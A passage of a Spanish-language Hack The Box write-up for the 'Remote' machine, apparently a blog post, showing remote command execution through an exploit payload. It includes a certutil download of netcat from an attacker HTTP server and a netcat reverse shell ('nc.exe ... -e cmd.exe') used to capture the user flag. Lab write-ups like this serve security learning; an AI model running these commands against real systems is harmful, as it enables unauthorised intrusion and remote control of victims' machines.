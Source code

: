 Con todo lo anterior, podemos comprobar que al ingresar los siguientes valores en el payload, obtenemos un resultado de ejecución remota de comandos:
- `FileName = “cmd.exe”`
- `Cmd: “/c whoami”`
Como respuesta a la petición obtenemos la información del comando ejecutado. 

![Test Exploit](/assets/htb/02_remote/11_test_exploit.png)
_Prueba manual del exploit_

- Nota
> Al ser un sistema Windows, lo primero que intentamos es realizar el consumo de un ejecutable (Shell reversa construida con msfvenom) de forma remota mediante **SMB** hacia nuestro servidor (consideramos que la Shell esta en C# y hay que escapar la barra invertida), quedando así: \\\\10.10.14.45\\share\\d14.exe, sin embargo, no obtenemos resultado debido a que es un sistema Windows 10 actualizado, y por defecto en las nuevas actualizaciones, Windows no esta aceptando el consumo de recursos SMB sin contraseña y deshabilito el SMBv2 (<https://github.com/SecureAuthCorp/impacket/issues/599>). 

En este punto, intentamos ejecutar una Shell reversa con **netcat**, pero parece que por problemas con los caracteres de escape no funcionará, así que se decide no hacerlo de forma directa sino transferir al servidor el archivo y después ejecutarlo:

```console
$ cmd.exe /c certutil.exe -urlcache -f http://10.10.14.45/d14.ps1 C:\\site_backups\\nc.exe
```
Antes de eso, creamos el servidor **HTTP** y colocamos ahí nuestro ejecutable de **netcat**:

```console
$ python -m SimpleHTTPServer 80
```

Ahora que la Shell se encuentra en el servidor, la ejecutamos desde el exploit y recibimos la conexión a nuestro puerto 4646 con netcat

```console
$ nc -nvlp 4646
$ nc.exe 10.10.14.45 4646 -e cmd.exe
```

Lo cual nos proporciona una Shell interactiva con el servidor victima y podemos capturar la flag de bajos privilegios `user.txt`.

![Reverse Shell](/assets/htb/02_remote/12_user_txt.png)